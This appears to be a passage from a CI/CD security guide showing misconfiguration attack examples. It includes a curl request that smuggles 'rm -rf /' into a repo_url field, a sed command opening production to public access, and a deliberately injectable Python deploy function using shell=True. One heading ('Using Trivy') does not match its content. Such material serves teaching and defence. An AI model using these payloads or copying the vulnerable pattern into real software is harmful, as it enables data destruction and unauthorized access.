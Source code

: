 
2. Exploiting Misconfigured Deployment Scripts

```
# Exploit misconfigured deployment script to modify production configuration
ci-tool run-deployment-script --script "sed -i 's/ALLOW_PUBLIC_ACCESS = False/ALLOW_PUBLIC_ACCESS = True/' production.config"
```

In this scenario, an attacker identifies a misconfigured deployment script in the CI/CD pipeline that allows unauthorized modification of the production environment configuration.


3. Social Engineering and Unauthorized Access

```
# Social engineering attack to gain access and modify the production configuration
ci-tool login --username admin --password attacker-password
ci-tool modify-config --environment production --setting MALICIOUS_SETTING --value True
```

In this scenario, an attacker employs social engineering techniques to gain unauthorized access to the CI/CD pipeline and modifies the production environment configuration.

### Insecure Configuration Management


1. Using Trivy:

```
curl -X POST -d "repo_url=malicious_repo.git; rm -rf /" https://example.com/deploy
```

Code:

```
import subprocess

def deploy(repo_url):
    # Insecure configuration, command injection vulnerability
    command = f"git clone {repo_url}"
    subprocess.call(command, shell=True)
```

In this example, the `deploy` function is part of a deployment script. The `repo_url` parameter is expected to be a valid Git repository URL. However, due to improper input validation, an attacker can inject arbitrary commands by appending them to the `repo_url`. In this case, the attacker adds a command (`rm -rf /`) to delete the entire filesystem.



2. Environment Variable Disclosure


```
curl https://example.com/api/config
```


Code:

```
import os

def get_api_key():
    # Insecure configuration, sensitive information exposure
    return os.environ.get('API_KEY')
```
